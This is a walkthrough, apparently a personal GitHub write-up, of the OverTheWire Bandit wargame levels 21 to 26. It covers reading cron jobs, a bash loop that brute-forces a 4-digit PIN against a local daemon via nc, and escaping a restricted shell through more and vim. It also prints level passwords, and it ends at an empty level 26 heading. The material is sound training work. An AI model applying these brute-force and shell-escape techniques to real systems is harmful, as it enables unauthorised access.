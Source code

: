 
# Bandit Overthewire

## 21 -> 22:
A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

```bash
$ cd /etc/cron.d
$ cat cronjob_bandit22

#* * * * * bandit22 /usr/bin/cronjob_bandit22.sh &> /dev/null

$ cat /usr/bin/cronjob_bandit22.sh

# #!/bin/bash
#chmod 644 /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
#cat /etc/bandit_pass/bandit22 > /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv

$ cat /tmp/t7O6lds9S0RqQh9aMcz6ShpAoZKF7fgv
```

## 22 -> 23:
A program is running automatically at regular intervals from cron, the time-based job scheduler. Look in /etc/cron.d/ for the configuration and see what command is being executed.

```bash
$ cat /etc/cron.d/cronjob_bandit23

# @reboot bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null
# * * * * * bandit23 /usr/bin/cronjob_bandit23.sh  &> /dev/null

$ cat /usr/bin/cronjob_bandit23.sh

# #!/bin/bash
# myname=$(whoami)
# mytarget=$(echo I am user $myname | md5sum | cut -d ' ' -f 1)
# echo "Copying passwordfile /etc/bandit_pass/$myname to /tmp/$mytarget"
# cat /etc/bandit_pass/$myname > /tmp/$mytarget
```

The password to bandit24 can be found at /etc/bandit_pass/bandit24 which is redirected to /tmp/8ca319486bfbbc3663ea0fbe81326349.

Password is `jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n`

## 23 -> 24:
```bash
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh 
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

```


## 24 -> 25:
A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

```bash
for i in {0000..9999}
do
	echo UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i
done
```

run this script and store the output to `combinations.txt`

```bash
$ ./script.sh | nc localhost 30002 
```

## 25 -> 26:
Logging in to bandit26 from bandit25 should be fairly easy… The shell for user bandit26 is not /bin/bash, but something else. Find out what it is, how it works and how to break out of it.

```bash
$ cat /etc/passwd | grep bandit26
$ cat /usr/bin/showtext
```

In showtext, we can see as below
```bash
#!/bin/sh
export TERM=linux

more ~/text.txt  
exit 0
```

more opens the text file, resize the window so that more works.

by pressing `v`, it opens vim editor.

Vim has the ability to edit files without exiting it

`-e /etc/bandit_pass/bandit26`

The password is `5czgV9L3Xx8JPOyRbXh6lQbmIOWvPT6Z`

We can set shell to bash using `set shell=/bin/bash`

## 26 -> 27:
